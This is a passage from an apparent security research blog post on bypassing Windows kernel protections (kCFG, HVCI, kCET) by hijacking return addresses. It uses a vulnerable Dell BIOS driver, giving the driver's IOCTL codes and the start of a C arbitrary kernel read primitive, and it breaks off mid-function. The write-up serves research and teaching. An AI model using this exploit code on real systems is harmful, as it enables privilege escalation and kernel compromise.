 kCFG is only _fully_ enabled when HVCI is enabled. SLAT is used to protect the kCFG bitmap. As we can see below, when we attempt to overwrite the bitmap, we get an access violation. This is due to the fact that although the PTE for the kCFG bitmap says it is writable, the EPTE can enforce that this page is _not_ writable - and therefore, with kCFG, non-modifiable by an adversary.

<img src="{{ site.url }}{{ site.baseurl }}/images/HVCI19a.png" alt="">

So, since we cannot just modify the bitmap to allow us to call anywhere in the address space, and since kCFG will protect function pointers (like `nt!HalDispatchTable + 0x8`) and _not_ return addresses (as we saw in the browser exploitation series) - we can simply overwrite a return address to hijack control flow. As mentioned previously, kCET will mitigate this - but looking at my current Windows 11 VM (which has a CPU that can support kCET), kCET is not enabled. This can be checked via `nt!KeIsKernelCetEnabled` and `nt!KeIsKernelCetAuditModeEnabled` (both return a boolean - which is false currently).

<img src="{{ site.url }}{{ site.baseurl }}/images/HVCI19aaa.png" alt="">

Now that we have talked about control-flow hijacking, let's see how this looks practically! For this blog post we will be using the previous Dell BIOS driver exploit I talked about to demonstrate this. To understand how the arbitrary read/write primitive works, I highly recommend you read that blog first. To summarize briefly, there are IOCTLs within the driver that allow us to read one kernel-mode QWORD at a time and to write one QWORD at a time, from user mode, into kernel mode.

"Dummy Thread" Creation to `KTHREAD` Leak
---
First, our exploit begins by defining some IOCTL codes and some NTSTATUS codes.

```c
//
// Vulnerable IOCTL codes
//
#define IOCTL_WRITE_CODE 0x9B0C1EC8
#define IOCTL_READ_CODE 0x9B0C1EC4

//
// NTSTATUS codes
//
#define STATUS_INFO_LENGTH_MISMATCH 0xC0000004
#define STATUS_SUCCESS 0x00000000
```
Let's also outline our - `read64()` and `write64()`. These functions give us an arbitrary read/write primitive (I won't expand on these. See [the blog post](https://connormcgarr.github.io/cve-2020-21551-sploit/) related to the vulnerability for more information.

<img src="{{ site.url }}{{ site.baseurl }}/images/HVCI20.png" alt="">

`read64()`:

```c
ULONG64 read64(HANDLE inHandle, ULONG64 WHAT)
{
	//
	// Buffer to send to the driver (read primitive)
	//
	ULONG64 inBuf[4] = { 0 };

	//
	// Values to send
	//
	ULONG64 one = 0x4141414141414141;
	ULONG64 two = WHAT;
	ULONG64 three = 0x0000000000000000;
	ULONG64 four = 0x0000000000000000;

	//
	// Assign the values
```